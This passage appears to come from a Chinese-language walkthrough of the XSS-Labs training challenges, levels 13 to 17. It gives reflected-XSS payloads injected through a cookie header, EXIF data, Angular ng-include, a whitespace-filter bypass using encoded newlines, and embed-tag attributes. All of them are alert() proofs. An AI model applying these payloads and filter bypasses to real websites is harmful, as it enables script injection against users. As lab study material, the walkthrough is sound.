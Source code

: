 与11题类似，注入点更换为Cookie:

```
Cookie: user= " onmouseover=alert(/2333/) type="text"

Cookie: user= " onclick="alert(/2333/) type="text
```



### level-14

#### 考点：图片exif 藏有XSS payload

[EXIF Viewer XSS漏洞](https://www.hackersb.cn/hacker/140.html)



### level-15

#### 考点：angular js

ng-include有包含文件的意思，也就相当于PHP里面的include，因此可以包含第一关的页面

#### 思考：

**payload：**

```
?src='level1.php?name=<img src=x onerror=alert(/2333/)>'

?src='http://127.0.0.1/XSS-Labs-master/level1.php?name=<img src=x onerror=alert(1)>'
```



### level-16

#### 考点：绕过空格

#### 思考：

这一关过滤了空格，可以选择用其他符号来绕过比如：%0a%0d，%0A，%0a

**payload：**

```
?keyword=<img%0a%0dsrc=x%0a%0donerror=alert(/2333/)>
```



### level-17

#### 考点：embed标签

- arg01和arg02提交的变量为注入点

- embed标签可以引入swf文件，在参数位置构造`onmouseover=alert(1)`。要注意火狐不支持swf，改成ie浏览器就可以了
